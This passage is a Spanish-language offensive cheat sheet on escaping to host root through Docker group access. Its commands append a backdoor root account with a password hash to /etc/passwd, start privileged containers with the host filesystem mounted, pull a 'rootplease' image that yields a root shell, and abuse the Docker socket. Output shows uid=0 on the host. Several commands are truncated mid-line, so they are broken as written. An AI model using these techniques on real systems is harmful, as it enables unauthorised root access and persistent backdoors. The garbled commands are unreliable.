 # Groups

![](file:///C:/Users/Nedia/AppData/Local/Temp/msohtmlclip1/01/clip_image004.gif)

## Docker

Monte el sistema de archivos en un contenedor bash, lo que le permitirá editar `/etc/passwd` como root, luego agregue una cuenta de puerta trasera `o:contraseña`.

```sh
$> docker run -it --rm -v $PWD:/mnt bash
$> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc
```

Casi similar, pero también verá todos los procesos ejecutándose en el host y estarán conectados a las mismas NIC.

```sh
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
```

O utilice la siguiente imagen acoplable de chrisfosterelli para generar un shell raíz

```sh
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest
```

Ahora debería tener un shell raíz en el sistema operativo host. Presione Ctrl-D para salir de la instancia/shell de Docker.

```sh
sh-5.0
# id 
uid=0(root) gid=0(root) groups=0(root)
```

Más escalada de privilegios de Docker utilizando Docker Socket.

```sh
sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chr sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=ho
```

## LXC/LXD

`Privesc` requiere ejecutar un contenedor con privilegios elevados y montar el sistema de archivos host en su interior.
